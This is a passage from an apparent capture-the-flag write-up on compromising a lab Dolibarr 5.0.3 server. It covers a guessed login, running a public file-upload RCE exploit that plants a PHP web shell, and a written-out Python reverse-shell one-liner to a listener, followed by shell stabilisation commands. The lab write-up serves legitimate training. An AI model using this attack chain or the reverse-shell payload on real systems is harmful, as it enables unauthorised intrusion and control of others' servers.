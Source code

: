 ![vhost](4.png)

This gives us a login page for `Dolibarr 5.0.3`

Let's try login in using `rick` as a username and password.

![dashboard](5.png)

The credentials worked and we managed to login with `rick:rick`.

## **Foothold**

Searching for possible exploits on `dolibarr` we come across a `File upload restrictions bypass` leading to `Remote Code Execution`. The exploit can be found [here](https://www.exploit-db.com/exploits/49711)

We download the exploit and run it.

```bash
$ python exploit.py -c id -u rick -p rick http://crm.pwntilldawn.com
Successful login, user id found: 2                                                             
------------------------------
Trying extension-bypass method
                                                                                               
Error 404 http://crm.pwntilldawn.com/documents/users/2/jb9mmla9.php?cmd=id
Non-executable http://crm.pwntilldawn.com/documents/users/2/jb9mmla9.pht?cmd=id
Error 404 http://crm.pwntilldawn.com/documents/users/2/jb9mmla9.phpt?cmd=id
Payload was successful! http://crm.pwntilldawn.com/documents/users/2/jb9mmla9.phar?cmd=id
Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It worked and we managed to run commands.

The exploit uploaded a php web shell to the target and from there it executed commands using `cmd` parameter.

Multiple URLs were provided, let's choose a one that works and run a python reverse shell command.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.66.67.114",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

I just copied the url to my browser and instead of running the `id` command I run the above rev shell command.

```bash
http://crm.pwntilldawn.com/documents/users/2/jb9mmla9.phar?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.66.67.114",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

After setting up the listener we receive a shell as user `www-data`

```terminal
┌──[10.66.67.114]─[sirius💀parrot]-[~/…/htb/dog/scans/shell]
└──╼[★]$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.66.67.114] from (UNKNOWN) [10.150.150.27] 44992
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@Brandy:/var/www/html/dolibarr/documents/users/2$ export TERM=xterm
export TERM=xterm
www-data@Brandy:/var/www/html/dolibarr/documents/users/2$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                 
┌──[10.66.67.114]─[sirius💀parrot]-[~/…/htb/dog/scans/shell]
└──╼[★]$ stty raw -echo;fg                          
[1]  + continued  nc -lvnp 9001
```